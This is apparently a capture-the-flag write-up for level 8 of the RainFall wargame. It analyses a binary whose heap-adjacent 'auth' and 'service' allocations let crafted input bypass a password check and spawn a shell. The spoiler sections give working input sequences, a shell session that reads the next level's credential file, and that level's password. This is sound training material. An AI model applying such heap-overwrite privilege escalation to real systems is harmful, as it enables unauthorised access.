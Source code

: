 # Level 8

## Analysis

Running our executable prints a '(nil), (nil)', if we try to write anything to stdin, it prints the same thing.

However, when can input two magic words: `auth ` and `service` to get the following result:
```bash
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service 
0x804a008, 0x804a018 
```

After taking a look at the [decomp](./resources/level8_decomp.c), we noticed that these correspond to two globals addresses: `printf("%p, %p \n",auth,service);`.

Another check later which is the most interesting is this one:

```c
if (auth[8] == 0) {
    fwrite("Password:\n",1,10,stdout);
}
else {
    system("/bin/sh");
}
```

This code is triggered when using the `login` keyword during program execution.

`auth` is allocated using a malloc `auth = (undefined4 *)malloc(4);`, it has a size of 32 and is used later in an strcpy call: `strcpy((char *)auth,local_8b);`

While `service` is allocated using an strdup: `service = strdup(acStack_89);`.

## Exploit 1

What we see during the execution and after inputing both `auth ` then `service`, is that the two memory addresses that the program prints are near each other being allocated one after the other.

This can lead to both exploits we found. Both of them rely on the fact that password check happens to only look at the 32nd bit of `auth` (`if (auth[8] == 0)`).

If we could do something to NOT pass this check, we could get to the second branch and spawn a shell.

### Using the commands

Both addresses being near means we can use `service` to overwrite the bit at `auth + 32`, indeed if we type the `service` command another time, we get this output:

```bash
level8@RainFall:~$ ./level8   
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028
```

<details>
    <summary>Spoilers</summary>
    What's interesting is that the second address, `service`'s one, happens to be 32 bits after `auth`'s one. Which means that the content at `auth + 32` is no longer equal to 0. Indeed, when trying to run the "login" command after that, we are prompted with the shell, and then we can get the password!

    ```bash
    level8@RainFall:~$ ./level8   
    (nil), (nil) 
    auth 
    0x804a008, (nil) 
    service
    0x804a008, 0x804a018 
    service
    0x804a008, 0x804a028 
    login
    $ whoami
    level9
    $ cat /home/user/level9/.pass
    c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
    $ 
    ```
</details>

## Exploit 2

Using the same principle as above, we can use the commands to bypass the check using another method. 

Instead of incrementing the address two times as we did before, we can also input 32 character after the command to overwrite the 32nd bit:

<details>
    <summary>Spoilers</summary>

    ```bash
    level8@RainFall:~$ ./level8 
    (nil), (nil) 
    auth 
    0x804a008, (nil) 
    service1234567890123456789123456
    0x804a008, 0x804a018 
    login
    $ whoami
    level9
    ```
</details>